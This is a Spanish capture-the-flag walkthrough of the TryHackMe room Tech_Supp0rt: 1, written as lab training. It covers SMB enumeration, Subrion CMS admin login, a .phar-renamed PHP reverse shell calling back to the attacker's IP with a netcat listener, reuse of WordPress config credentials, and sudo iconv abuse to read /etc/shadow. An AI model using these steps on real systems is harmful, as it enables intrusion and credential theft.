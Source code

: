 # Guía de Explotación - TryHackMe Tech_Supp0rt: 1

## 1. Reconocimiento

Iniciamos el reconocimiento con un escaneo de Nmap utilizando el siguiente comando:

```bash
nmap -sC -p- --open -n --max-rate 1000 -sV IP_MAQUINA_ATACADA
```

![alt text](./assets/image.png)

El escaneo revela los siguientes puertos abiertos:
- **22/TCP** (SSH)
- **80/TCP** (HTTP)
- **139/TCP** (SMB)
- **445/TCP** (SMB)

A continuación, enumeramos los recursos compartidos por el servidor Samba utilizando el script ``smb-enum-shares`` de Nmap:

```bash
nmap --script="smb-enum-shares" -p139 IP_MAQUINA_ATACADA
```

![alt text](./assets/image-1.png)

El script identifica tres recursos compartidos accesibles con el usuario ``guest``. Uno de estos recursos es un directorio llamado ``websvr``, en el que los usuarios anónimos tienen permisos de lectura y escritura.

Para acceder a este directorio, establecemos una conexión anónima con el siguiente comando:

```bash
smbclient //IP_MAQUINA_ATACADA/websvr -p 139 -U anonymous
```

![alt text](./assets/image-2.png)

Dentro del directorio ``websvr``, encontramos un archivo llamado ``enter.txt``. Lo descargamos y revisamos su contenido:

```bash
get enter.txt
cat enter.txt
```

![alt text](./assets/image-3.png)

El archivo contiene credenciales posiblemente válidas para acceder al portal de administración del ``CMS Subrion``. Además, menciona que existen dos sitios web, uno desarrollado en ``WordPress`` y otro en ``Subrion``.

![alt text](./assets/image-4.png)

Accedemos al portal del CMS Subrion a través del navegador:

![alt text](./assets/image-5.png)

El formulario de inicio de sesión requiere autenticación. Como la contraseña del archivo ``enter.txt`` está codificada, utilizamos la herramienta CyberChef con la operación "Magic" para identificar y decodificar la contraseña.

![alt text](./assets/image-6.png)

Tras decodificar la contraseña, nos autenticamos con las siguientes credenciales:

```plaintext
Usuario: admin
Contraseña: Scam2021
```

![alt text](./assets/image-7.png)

Ingresamos exitosamente al portal de administración, donde encontramos la opción de subir archivos. Además, identificamos que la versión del CMS Subrion es la **4.2.1**.

![alt text](./assets/image-8.png)

## 2. Ganar Acceso

Buscamos vulnerabilidades para la versión 4.2.1 en `https://www.exploit-db.com/`.

![alt text](./assets/image-9.png)

Encontramos un exploit que permite la carga de archivos ``.phar`` y ``.pht``, lo que facilita la ejecución de una **reverse shell**.

Descargamos la reverse shell en PHP:

```bash
wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
```

Extraemos y editamos el archivo PHP para configurar nuestra IP y puerto:

```bash
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```

![alt text](./assets/image-12.png)

Renombramos la extensión de ``.php`` a ``.phar`` para evadir restricciones:

```bash
mv php-reverse-shell.php reverse.phar
```

Subimos el archivo malicioso en el panel de administración:

![alt text](./assets/image-13.png)

Ponemos a la escucha el puerto configurado:

```bash
nc -lvnp 1500
```

Ejecutamos la reverse shell accediendo a la URL donde se encuentra el archivo subido:

![alt text](./assets/image-14.png)

Estabilizamos la shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL + Z

stty raw -echo; fg
export TERM=xterm-256color
```

![alt text](./assets/image-15.png)

## 3. Escalada de Privilegios

Buscamos credenciales en los archivos de configuración de WordPress y encontramos:

```bash
Usuario: support
Contraseña: ImAScammerLOL!123!
```

![alt text](./assets/image-19.png)

Ejecutamos:

```bash
cat /etc/passwd
```

Identificamos un usuario llamado ``scamsite``. Intentamos autenticarnos con las credenciales encontradas:

![alt text](./assets/image-20.png)

Ahora enumeramos los comandos que ``scamsite`` puede ejecutar con privilegios elevados:

```bash
sudo -l
```

![alt text](./assets/image-21.png)

Observamos que el usuario puede ejecutar `iconv` con permisos de root. Este comando se usa para la conversión de codificación de caracteres, pero podemos explotarlo para leer archivos restringidos como ``/etc/shadow``.

Ejecutamos:

```bash
sudo iconv -f /etc/shadow
```

![alt text](./assets/image-22.png)

Finalmente, accedemos al archivo ``root.txt`` y obtenemos la flag:

![alt text](./assets/image-23.png)

